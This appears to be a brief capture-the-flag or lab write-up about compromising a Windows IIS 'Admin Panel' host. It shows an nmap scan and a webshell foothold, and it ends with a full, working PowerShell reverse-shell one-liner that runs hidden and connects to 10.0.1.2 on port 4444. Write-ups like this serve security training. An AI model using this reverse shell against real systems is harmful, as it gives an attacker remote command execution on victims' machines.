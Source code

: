 ## NMAP
```
Nmap scan report for 172.16.1.52
Host is up (0.079s latency).
Not shown: 996 closed tcp ports (conn-refused)
PORT    STATE SERVICE       VERSION
80/tcp  open  http          Microsoft IIS httpd 10.0
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-title: Admin Panel
|_http-server-header: Microsoft-IIS/10.0
135/tcp open  msrpc         Microsoft Windows RPC
139/tcp open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp open  microsoft-ds?
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: -55s
| smb2-time: 
|   date: 2023-04-14T18:58:24
|_  start_date: N/A
| smb2-security-mode: 
|   311: 
|_    Message signing enabled but not required

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 23.84 seconds
```
![image](https://user-images.githubusercontent.com/128841823/232133317-386587ca-8e23-496a-84d0-6b54b961444d.png)

I was able to load linpeas so I attempted a PHP reverse shell, but that wouldn't work so I attempted cmdasp.aspx webshell 

![image](https://user-images.githubusercontent.com/128841823/232135528-a7ac3384-dbf7-42ba-b5c9-91a33b09a7e5.png)

using this reverse shell I was able to connect
```
powershell -nop -W hidden -noni -ep bypass -c "$TCPClient = New-Object Net.Sockets.TCPClient('10.0.1.2', 4444);$NetworkStream = $TCPClient.GetStream();$StreamWriter = New-Object IO.StreamWriter($NetworkStream);function WriteToStream ($String) {[byte[]]$script:Buffer = 0..$TCPClient.ReceiveBufferSize | % {0};$StreamWriter.Write($String + 'SHELL> ');$StreamWriter.Flush()}WriteToStream '';while(($BytesRead = $NetworkStream.Read($Buffer, 0, $Buffer.Length)) -gt 0) {$Command = ([text.encoding]::UTF8).GetString($Buffer, 0, $BytesRead - 1);$Output = try {Invoke-Expression $Command 2>&1 | Out-String} catch {$_ | Out-String}WriteToStream ($Output)}$StreamWriter.Close()"
```
